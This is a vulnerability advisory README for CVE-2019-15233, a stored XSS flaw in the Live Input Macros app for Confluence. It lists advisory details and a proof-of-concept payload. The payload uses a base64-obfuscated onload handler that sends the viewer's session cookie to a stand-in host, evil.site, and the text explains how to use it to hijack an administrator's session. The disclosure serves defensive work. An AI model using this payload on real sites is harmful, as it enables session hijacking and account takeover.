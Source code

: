 # CVE-2019-15233
(FAB-2019-00157) Vulnerability discoverd by me CVE-2019-15233


Advisory: [advisory](./advisory.txt)

## Basic Info

```
Advisory ID: FAB-2019-00157
Product: Live Input Macros
Manufacturer: Old Street Solutions
Affected Version(s): 2.10 and before
Tested Version(s): 2.10
Vulnerability Type: Cross-Site Scripting (CWE-79)
Risk Level: High
CVSS v3.0: 7.6
Vektor String: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:H
Vendor Homepage: https://www.oldstreetsolutions.com/
Software Link: https://marketplace.atlassian.com/apps/1215287/live-input-macros
Solution Status: Reported
Manufacturer Notification: 2019-08-19
Solution Date: 2019-08-20
Public Disclosure: 2019-08-20
CVE Reference: CVE-2019-15233
Author of Advisory: Francesco Emanuel Bennici, FABMation GmbH
```

## Credits

This security vulnerability was found by _Francesco Emanuel Bennici <eb@fabmation.de>_
of FABMation GmbH.


## Description

Live Input Macros gives Users the possibility to add checkboxes, radio buttons,
dropdown lists and more to your Confluence pages and make changes without
editing the page.

An attacker can execute JavaScript Code on the Confluence Site if a User
adds the malicous Code.

This can be used to steal the Session Cookie of an (eg.) Administrator (Session
Hijacking).


## PoC/ Exploit

Copy this Content:
```
Hello World this is my Text Box </p> </div>





alksdfjlkasdjflkj </p> " <br/> <style/onload=window.location=atob("aHR0cDovL2V2aWwuc2l0ZS8/PQ==")+document.cookie> <br/> " <p> asdasd
```

And create a new Element on a Confluence Page. Paste this text into it and share
the Confluence Page with (eg.) an Systemadministrator and if he access the Site,
you can Hijack/ "Copy" his Session.
